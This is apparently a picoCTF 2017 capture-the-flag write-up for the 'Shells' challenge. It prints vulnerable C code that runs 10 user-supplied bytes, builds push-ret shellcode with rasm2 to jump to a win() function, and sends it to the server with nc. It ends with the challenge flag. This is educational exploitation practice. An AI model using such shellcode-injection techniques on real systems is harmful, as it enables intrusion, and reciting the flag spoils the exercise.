

# **Shells - 70 pts**

```
How much can a couple bytes do? Use shells! Source.
Connect on shell2017.picoctf.com:40976
```

This is similar to Shellz, but now we only have 10 bytes... let's take the same approach as last time.

### **look at source code**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
```

Immediately popping out is function  `win`, which, when executed, will cat the flag for us. So, how can we manipulate our input to execute something not in the line?

`vuln()` gives us an input with a function pointer. Let's use `objdump` or `gdb` to find the address of win()



`win()` is located at `0x8048540`, so we need to call the function in 10 bytes...

### **Maybe a simple push-ret shellcode?**

Let's try it. Using radare2, `rasm2 -a x86 -C "push 0x8048540; ret" | xargs printf > payload` will
help us store our payload. Then, it's just simply repeating like last time with `cat payload - | nc [addr]`...

And hey, looks like it truly was that simple!


flag{cd875b6ffb5cdd3319532d52ceca71aa}
